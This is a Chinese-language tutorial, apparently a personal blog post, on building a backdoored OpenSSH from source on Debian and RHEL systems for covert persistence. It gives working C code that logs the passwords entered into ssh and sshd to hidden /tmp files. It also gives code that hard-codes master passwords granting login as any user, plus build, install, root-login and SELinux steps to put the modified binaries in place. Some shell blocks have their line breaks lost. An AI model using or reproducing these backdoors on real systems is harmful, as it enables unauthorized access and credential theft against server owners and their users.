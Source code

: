 # OpenSSH后门制作

网上关于OpenSSH的后门都是抄来抄去，普遍都是对某个早期版本的OpenSSH打patch进行的，这样的后门使用起来就是自己骗自己，隐蔽性不强，兼容度也极低。因此，花了一段时间研究怎么手工制作OpenSSH后门，这样的后门定制度高，与服务器上OpenSSH版本一致，隐蔽性也较强。

本教程主要记录怎么制作硬编码口令后门及密钥窃听后门，实际上使用OpenSSH源码编译后门能做的还有很多，如硬编码免密后门、命令执行、攻击痕迹清理等。

## Debian系-OpenSSH后门

### 确定版本

```shell
dpkg -S /usr/sbin/sshd
dpkg -l openssh-server
## apt-get download openssh-server=1:8.4p1-5
```

### 下载源码

```shell
# 这是Debian版的下载地址。
https://tracker.debian.org/pkg/openssh
https://salsa.debian.org/ssh-team/openssh/-/archive/debian/1%258.4p1-5/openssh-debian-1%258.4p1-5.zip
# 这是Ubuntu版的下载地址。
https://launchpad.net/ubuntu/+source/openssh
https://launchpad.net/ubuntu/+source/openssh/1:8.4p1-5ubuntu1
```

### 添加后门代码

下面给出发现的一些可利用的位置，实战中使用基本足矣。

```shell
[ssh]
readpass.c     ... read_passphrase
sshconnect2.c  ... userauth_passwd

[sshd]
monitor.c      ... mm_answer_authpassword
auth-passwd.c  ... auth_password
auth-pam.c     ... sshpam_auth_passwd   //大多数ssh都默认使用pam进行认证
```

具体的添加步骤，这里给出几个简单例子。

#### 偷密码

```c
// sshconnect2.c:userauth_passwd      ssh（偷连向其他服务器的密码）
FILE *fp = NULL;
fp = fopen("/tmp/.ssh-2AKMo5YJSRPJ", "a+");
fprintf(fp, "{\"%s@%s\":\"%s\"} (%s:%s)\n",authctxt->server_user,authctxt->host,password,authctxt->local_user,authctxt->service);
fclose(fp);

// auth-passwd.c:auth_password        sshd（记录本机接收到的密码）
// 如果添加在具体的认证函数之前可获得所有登录尝试下的密码，用于口令分析
// 如果添加在认证通过后就是专门用于偷口令的OpenSSH口令窃取后门
FILE *fp = NULL;
time_t timep;
struct tm * lt;
time (&timep);
lt=localtime(&timep);
fp = fopen("/tmp/.sshd_listener.log", "a+");
fprintf(fp, "[%ld/%d/%d %d:%d:%d] [%d] %s:%d --> %s:%d { \"%s\" : \"%s\" }\n", \
		//asctime(gmtime(&timep)), 
		lt->tm_year+1900,lt->tm_mon+1,lt->tm_mday,lt->tm_hour,lt->tm_min,lt->tm_sec,\
		timep, \
		ssh->remote_ipaddr, \
		ssh->remote_port,\
		ssh->local_ipaddr, \
		ssh->local_port,\
		authctxt->user,password);
fclose(fp);
```

#### 万能口令

使用硬编码的万能口令能登录任意用户。

```c
// auth-passwd.c:auth_password        sshd
if (!strcmp(password, "testme12#$")) return 1;

// monitor.c:mm_answer_authpassword   sshd
原来代码如下：authenticated = options.password_authentication && auth_password(ssh, passwd);
改为：authenticated = options.password_authentication && auth_password(ssh, passwd) || strcmp(passwd, "laotie666")==0;
```

### 编译安装

```shell
apt-get install libpam0g-dev libselinux1-dev

clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/run/sshd ; make && make install 

clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/var/lib/sshd/ ; make && make install  
# 实际上源码编译并安装后会发现ssh和sshd都替换掉了。因为我们的源码包是openssh的，不单纯是openssh-server
```

### 效果

下图中可以看到Debian上使用带窃听功能的ssh后门尝试登录服务器时，记录到的密码。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_173536.jpg)

下图是其他设备尝试以万能口令登录Debian服务器的效果。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_175822.jpg)

Debian服务器上带窃听后门代码的sshd上也可以看到输入的密码信息。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_175916.jpg)

## RHEL系-OpenSSH后门

### 确定版本

```shell
rpm -qf /usr/sbin/sshd
```

### 下载源码

```shell
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.8p1.tar.gz
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.8p1.tar.gz.asc
```

### 添加后门代码

参考上面Debian系的添加方法，都是一样的。

### 编译安装

**step1** 源码编译

```shell
yum -y install pam-devel libselinux-devel zlib zlib-devel openssl-devel openssl-libs make gccwget http://vault.centos.org/8.4.2105/BaseOS/Source/SPackages/openssh-8.0p1-6.el8_4.2.src.rpmrpm -i openssh-8.0p1-6.el8_4.2.src.rpmcd ~/rpmbuild# 编译选项可查看./contrib/redhat/openssh.specclear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh /etc/ssh ;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/run/sshd ; make && make install 
```

**step2** 编写sshd.service文件

```shell
cat /etc/systemd/system/sshd.service <<EOF[Unit]Description=OpenSSH server daemonAfter=network.target[Service]Type=simpleUser=rootRestart=on-failureRestartSec=5sExecStart=/usr/sbin/sshd -f /etc/ssh/sshd_configKillMode=process[Install]WantedBy=multi-user.targetEOF
```

**step3** 编辑sshd_config配置文件，允许root登录

```shell
sed -i '/^PermitRootLogin/ s/no/yes/' /etc/ssh/sshd_config
```

**step4** 解决SELinux安全检查问题

```shell
restorecon -rv /usr/sbin/
```

**step5** 启动sshd.service

```shell
systemctl enable sshd.servicesystemctl start sshd.service
```

### 效果

下图时CentOS服务器带窃听功能的ssh及sshd捕获到的密码信息。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_153441.jpg)

Ref : https://github.com/aplyc1a/blogs/blob/master/%E6%8C%81%E4%B9%85%E6%8E%A7%E5%88%B6/Linux/%E5%AE%9A%E5%88%B6%E5%8C%96OpenSSH%E5%90%8E%E9%97%A8.md?plain=1